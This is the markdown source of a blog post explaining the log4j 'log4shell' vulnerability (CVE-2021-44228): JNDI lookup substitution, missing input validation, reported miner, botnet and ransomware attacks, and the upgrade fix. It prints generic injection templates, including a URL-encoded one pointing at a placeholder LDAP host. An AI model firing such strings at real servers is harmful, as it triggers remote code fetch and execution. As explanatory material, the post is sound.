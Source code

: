 ```yaml
---
title: "Understanding the log4j global security incident"
date: 2021-12-28T21:24:23+11:00
draft: false
image: img/Post6.jpg
tags: ['Learning', 'Vulnerability']
---
```


## What is the log4j incident?

Apache log4j is an open-source logging framework used with programming languages. It is a popular framework widely used across various industries, from video games such as Minecraft to hospital equipment and other programs.

Researchers from Alibaba Cloud Security Team discovered a vulnerability in the framework and reported it to Apache on the 24th of November 2021. The vulnerability was then released through a Twitter post to the world on the 9th of December 2021.

This vulnerability with log4j, tracked within the National Vulnerability Database as [**CVE-2021-44228**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), or more colloquially known as **log4shell**, comes with an ability to remotely execute code, making it very dangerous when used by cyber attackers.

Attackers can exploit the log4j vulnerability to perform a variety of cyber-attacks, such as forcing the server that is running log4j to install any software the attacker wants, including software that can completely take over the server. Within a few days of the exploit being released, cybersecurity company [Akamai Technologies Inc.](https://www.akamai.com/blog/security/threat-intelligence-on-log4j-cve-key-findings-and-their-implications) tracked over **10 million attempts to exploit log4j each hour**.

## Background Information

In Java programming, **logging** is a term to describe keeping records of all data input and output, and any changes made in an application. Logging is simply keeping a record of all the events in an application. It is mainly used by developers for debugging and tracking the history of changes.

A logging framework is usually a third-party application used to help ease and standardise the process of logging information across an application. Apache log4j is a popular and widely-used example of these third-party applications.

The log4j framework can look up information, such as Event lookups, Date lookups or JNDI (Java Naming and Directory Interface) lookups, to name a few examples. It uses the JDNI API to correlate these lookups against different record providers, such as DNS (Domain Name Service), RMI (Remote Method Invocation) or the others seen in the image below. An overview of JDNI can be found [here](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html).

{{< figure src="https://docs.oracle.com/javase/jndi/tutorial/figures/jndi/getStarted/jndiarch.jpg" title="JDNI API. Figure Source: Oracle Documentation" height="500" width="500" >}}

The log4shell vulnerability takes advantage of log4j not performing input validation and not sanitising any URL's passed through input messages. Log4j does not verify the JNDI and LDAP (Lightweight Directory Access Protocol) requests. Therefore, attackers can execute malicious Java code on any server, as log4j blindly trusts all user input.

## How log4j works

Log4j has a feature named **message lookup substitution**. This feature allows log4j to automatically detect strings (meaning text written by users) that point to JDNI resources. Before the latest update, this feature was enabled automatically and was partially responsible for the remote code execution vulnerability that came to be known as log4shell.

The **message lookup substitution** feature in log4j had no in-built rules governing acceptable user input, and as a result would not sanitise and remove any unnecessary input, including URL's. This automatically enabled feature, combined with the lack of input filtering, allowed attackers to send malicious requests to applications using log4j with little effort.

{{< figure src="https://news.sophos.com/wp-content/uploads/2021/12/log4j_how-1.png" title="Log4j Explanied. Figure Source: SophosLabs" height="700" width="700">}}

With HTTP communications specifically, the malicious string could be sent through any part of the HTTP request that would be logged by the receiving application. As seen in the diagram above, the **User-Agent** field in the "Normal Log4j Scenario" would contain the user's browser details. An attacker can modify this information and instead send a string that would invoke the JNDI interface.

This malicious string can be crafted in many ways but was commonly in the form of:

```text
${jndi:[service]://[lookup address]}
```

In this example, JNDI can call upon services such as LDAP, LDAPS, DNS or Java's RMI to assist in the lookup.

The lookup address is the URL that would be queried and fetched as Java code.

Another technique would include URL-encoded payloads. This would look like:

```text
$%7Bjndi:ldap:/x.x.x.x:3339/[malicious exploit]%7D
```

This technique is more straightforward for an attacker to execute and involves replacing characters with UTF-8 encoded characters. The '**{**' bracket is written instead as '**%7B**', for example.

When the receiving server logged this malicious request, the log4j vulnerability would be triggered and the commands crafted by the attacker would be executed.

## What known cyberattacks resulted from log4j?

Since the log4shell vulnerability is relatively simple to exploit, millions of cyber attacks have resulted from it within a few days of it being released.

Microsoft has reported cyberattacks involving attackers installing crypto mining software such as XMRig cryptocurrency miners on servers. Similarly, attackers have also tried to install botnet malware on servers, such as Muhstik botnet, as well as malicious java code that can create and activate a backdoor in a server for attackers to exploit later.

Khonsari and Conti ransomware threats have also been reported, alongside numerous other malware. More information about publicly reported payloads can be found at [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/log4j-vulnerabilities-attacks).

The best fix to this vulnerability is to update all servers using Apache Log4j to version 2.15.0 or later, and to continue checking to more future updates as good practice.

Tags:
